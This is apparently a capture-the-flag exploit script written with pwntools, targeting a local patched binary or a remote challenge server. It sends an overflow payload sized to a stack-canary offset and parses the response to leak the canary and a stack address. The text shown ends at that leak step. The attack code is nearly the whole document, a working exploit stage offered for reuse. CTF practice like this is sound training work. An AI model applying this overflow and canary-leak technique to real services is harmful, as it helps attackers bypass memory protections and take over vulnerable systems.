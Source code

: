 # 5.0 FINAL SCRIPT 
```python
# -*- coding: utf-8 -*-
from pwn import*
context.log_level='debug'
context.arch='amd64'
context.os = "linux"

pc = "./chall_patched"

libc  = ELF('./libc.so.6', checksec=False)
ld = ELF("ld-2.39.so")
exe = context.binary = ELF(pc)



scripts = """
"""
 
if __name__ == '__main__':
    local = sys.argv[1]
    if local == 'l':
        r= process(pc)
        elf = ELF(pc)
    else:
        r=remote("34.45.81.67",16006)
        elf = ELF(pc)
 
s = lambda *a, **k: r.send(*a, **k)
sa = lambda s,n : r.sendafter(s,n)
sla = lambda s,n : r.sendlineafter(s,n)
sl = lambda s : r.sendline(s)
sd = lambda s : r.send(s)
rc = lambda n : r.recv(n)
rl = lambda: r.recvline()
ru = lambda s : r.recvuntil(s)
ti = lambda: r.interactive()
lg = lambda s: log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
bhex = lambda b: int(b.decode(), 16)
ru7f = lambda: r.recvuntil(b'\x7f')
dbg = lambda: gdb.attach(r)
dbgstart = lambda script=scripts: gdb.attach(r, gdbscript=script)

payload = "CHUNK 100 1 "
canary_offset = 0x49
payload += "a"*canary_offset

sl(b"CHUNKS 3")
s(payload)
ru(b"a" * canary_offset)


# leak 0x7f8c061fff70
# base 0x7f8c06400000

# leak
# must + b'\0'
leak=b'\x00'+rl().strip()
warn(f"Thread leak: {leak}")
canary = u64(leak[:8])
print("canary:",hex(canary))
leak_stack = u64(leak[8:]+b'\x00'*(8-len(leak[8:])))
```